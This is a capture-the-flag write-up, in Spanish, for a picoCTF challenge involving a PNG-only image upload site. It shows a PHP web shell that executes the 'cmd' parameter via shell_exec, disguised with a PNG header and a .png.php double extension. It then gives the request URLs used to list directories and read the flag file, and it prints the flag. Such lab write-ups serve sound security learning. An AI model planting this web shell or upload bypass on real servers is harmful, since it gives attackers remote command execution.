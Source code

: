 I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:63568/)!

Hints:
1. None

## Solución 1:
Subimos un archivo webshell con doble extensión .png.php, nos aseguramos que el archivo comience con PNG para que sea valido
```
PNG
<?php
if(isset($_GET['cmd'])){
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>

Después ya podemos ejecutar comandos desde la ruta: primero inspeccionamos las carpetas anteriores a uploads con:
http://atlas.picoctf.net:57327/uploads/flag.png.php?cmd=ls%20..
Obteniendo: 
PNG
HFQWKODGMIYTO.txt
index.php
instructions.txt
robots.txt
uploads

Ahora le hacemos un cat al archivo extraño con el comando:
http://atlas.picoctf.net:57327/uploads/flag.png.php?cmd=cat%20../HFQWKODGMIYTO.txt
Y encontramos la flag:
PNG
/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17} */
```